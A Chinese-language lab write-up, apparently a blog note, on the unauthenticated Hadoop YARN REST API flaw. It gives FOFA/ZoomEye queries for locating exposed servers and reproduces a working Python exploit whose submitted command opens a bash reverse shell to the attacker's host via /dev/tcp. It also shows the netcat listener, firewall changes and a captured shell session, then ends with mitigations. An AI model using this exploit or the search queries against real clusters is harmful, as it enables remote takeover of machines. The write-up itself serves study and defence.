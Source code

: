 [Hadoop Yarn REST API未授权漏洞 - rab3it - 博客园](https://www.cnblogs.com/rab3it/p/14427171.html)


[vulhub/hadoop/unauthorized-yarn at master · vulhub/vulhub · GitHub](https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn)


# 漏洞简介及危害
Apache Hadoop YARN 是 Hadoop 的核心组件之一，负责对集群中的资源进行统一管理和调度。它将资源分配给在 Hadoop 集群中运行的各种应用程序，并调度这些应用程序在不同集群节点上执行任务。确保集群资源的高效分配和任务的有序执行。

由于未授权访问漏洞，访问 `http://your-ip:8088`（默认端口）即可看到 Hadoop YARN ResourceManager WebUI 页面。攻击者可通过 [REST API](https://hadoop.apache.org/docs/r2.7.3/hadoop-yarn/hadoop-yarn-site/ResourceManagerRest.html) 部署应用、提交任务来执行任意命令。

通过未授权创建 Application 从而达到 rce 的效果，最终可完全控制集群中所有的机器。

# 公网服务识别

### fofa 搜索语法

```
app="APACHE-hadoop-YARN"
app="APACHE-hadoop-YARN" && title="All Applications"
```

### ZoomEye 搜索语法

```
app:"APACHE-hadoop-YARN"
app:"APACHE-hadoop-YARN" +title:"All Applications"
```

# 漏洞复现

利用过程如下：（exp 脚本通过此利用过程来实现）
- 在本地监听等待反弹 shell 连接
- 调用 New Application API 创建 Application
- 调用 Submit Application API 提交


### 环境部署
用 vulhub 安装测试环境
```
service docker start
cd /root/vulhub/hadoop/unauthorized-yarn
docker-compose build && docker-compose up -d
```
访问 `http://<ResourceManager_IP>:8088/cluster`，由于未授权访问，可看到 Hadoop YARN ResourceManager WebUI 页面。同样的也可以调用 api 来访问。

### 漏洞验证

`curl -v -X POST 'http://<ResourceManager_IP>:8088/ws/v1/cluster/apps/new-application'`
ps: `curl -X 指定 HTTP 请求的方法，curl -v 输出通信的整个过程`

返回 `application-id` 的值 `application_1722161355970_0004`，漏洞可能存在。 

```sh
root@ddp1:~# curl -v -X POST 'http://ddp2:8088/ws/v1/cluster/apps/new-application'
*   Trying 172.17.211.85:8088...
* Connected to ddp2 (172.17.211.85) port 8088 (#0)
> POST /ws/v1/cluster/apps/new-application HTTP/1.1
> Host: ddp2:8088
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 01 Aug 2024 10:10:24 GMT
< Cache-Control: no-cache
< Expires: Thu, 01 Aug 2024 10:10:24 GMT
< Date: Thu, 01 Aug 2024 10:10:24 GMT
< Pragma: no-cache
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< X-Frame-Options: SAMEORIGIN
< Content-Type: application/json;charset=utf-8
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< 
* Connection #0 to host ddp2 left intact
{"application-id":"application_1722161355970_0004","maximum-resource-capability":{"memory":65536,"vCores":12,"resourceInformations":{"resourceInformation":[{"attributes":{},"maximumAllocation":9223372036854775807,"minimumAllocation":0,"name":"memory-mb","resourceType":"COUNTABLE","units":"Mi","value":65536},{"attributes":{},"maximumAllocation":9223372036854775807,"minimumAllocation":0,"name":"vcores","resourceType":"COUNTABLE","units":"","value":12}]}}}

```

### 反弹 shell
通过 vulhub 的脚本反弹 shell

[Vulhub](https://github.com/vulhub/vulhub)（一个面向大众的开源漏洞靶场）提供的提供的 [exp 脚本](https://github.com/vulhub/vulhub/blob/master/hadoop/unauthorized-yarn/exploit.py)（漏洞利用,Exploit，本意为「利用」）：

target 中填入靶机的地址 `http://<ResourceManager_IP>:8088/`
lhost 填入攻击机的 ip。目标在同一内网使用内网 IP；目标在不同网络使用公网 IP，且开放攻击机应监听的端口。通过 vulhub 的脚本反弹 shell，攻击机可直接 getshell。

```python title:"反弹 shell"
#!/usr/bin/env python

import requests

target = 'http://<ResourceManager_IP>:8088/'
lhost = '<LocalHostIp>' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

python 执行该 exp，共发起两次请求，第一次申请新的 application 的 id，第二次通过得到的 id，post 我们的 payload 完成命令反弹 shell。

攻击机使用 nc 工具监听的端口要和执行的命令中的端口一致，这里使用 `9999`

shell 反弹成功后，Applications 模块下会增加一个名称为 get-shell 的任务。

攻击机监听 `9999` 端口（如果被占用可以换一个），成功则会 getshell。

安装端口监听工具并监听端口
```
yum install -y nc
sudo apt-get -y install netcat-traditional
```

```
sudo netstat -tuln | grep 9999


# 通过ufw开放
sudo ufw status

sudo ufw allow 9999/tcp
sudo ufw reload

# 或者用iptables开放
sudo iptables -L -n | grep 9999

sudo iptables -A INPUT -p tcp --dport 9999 -j ACCEPT
sudo iptables-save
```
监听端口，getshell 成功：
```
root@admin5:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from <靶机IP> 46584 received!
bash: cannot set terminal process group (3247977): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

<35888_0003/container_1722529835888_0003_01_000001$ ifconfig
ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.7  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 fe80::20d:3aff:fec8:8e81  prefixlen 64  scopeid 0x20<link>
        ether 00:0d:3a:c8:8e:81  txqueuelen 1000  (Ethernet)
        RX packets 17582177  bytes 13929326838 (13.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24431797  bytes 10866595702 (10.8 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 96525215  bytes 137657119491 (137.6 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 96525215  bytes 137657119491 (137.6 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0 

<35888_0003/container_1722529835888_0003_01_000001$ 
```
- `-l`：表示监听模式。
- `-v`：启用详细输出模式。
- `-p`：指定端口号。
- `-n` 禁用 DNS 解析。不会尝试将 IP 地址解析为主机名，这可以提高速度并减少不必要的网络流量。



# 预防
- 关闭 Hadoop Web 管理页面，或升级修复
- 开启服务级别身份验证，如 Kerberos 认证
- 避免暴露在公网，或配置安全组、 URL 访问控制策略，限制对 YARN 服务的访问，只允许可信任的 IP 访问。

### 自查
打开 `http://<ResourceManager_IP>:8088` 访问 ResourceManager WebUI
在左侧导航栏中选择 `Applications` 查看 Application 列表，根据提交时间、用户等信息排查提交的 Applications。点击 ID 进入应用程序详情页面，在 `Application Overview` 中查看应用程序的命令信息、提交参数等详细信息。
